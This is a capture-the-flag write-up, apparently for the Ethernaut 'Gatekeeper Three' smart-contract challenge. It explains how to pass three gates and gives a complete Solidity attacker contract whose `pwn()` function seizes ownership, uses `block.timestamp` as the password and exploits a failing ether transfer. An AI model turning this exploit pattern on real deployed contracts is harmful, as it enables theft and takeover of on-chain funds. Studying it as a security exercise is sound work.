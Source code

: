 ### Goals

Become entrant

### Exploit

We need to bypass all 3 gates;

Gate1: we need to set msg.sender as owner which can be done by calling `construct0r`

Gate2: we need to pass the `password` that will match `trick.checkPassword`

Gate3: the `GateKeeper` balance must be greater then 0.001 ether and sending ether to `owner` must fail

### Code

Deploy contract in Remix

```code
interface Gate {
    function enter() external;
    function construct0r() external;
    function createTrick() external;
    function getAllowance(uint256) external;
}

contract Gate3 {
    Gate t = Gate(0xc08A2C11E90700f99dC55b52B3b440296B1D35d4);

    function pwn() external payable {
        t.construct0r();
        t.createTrick();

        uint256 b = block.timestamp;

        t.getAllowance(b);
        address(t).call{value: 0.0011 ether}("");
        t.enter();
    }
}
```

Deploy contract and call `pwn()` along with sending 0.0011 eth.

Done!
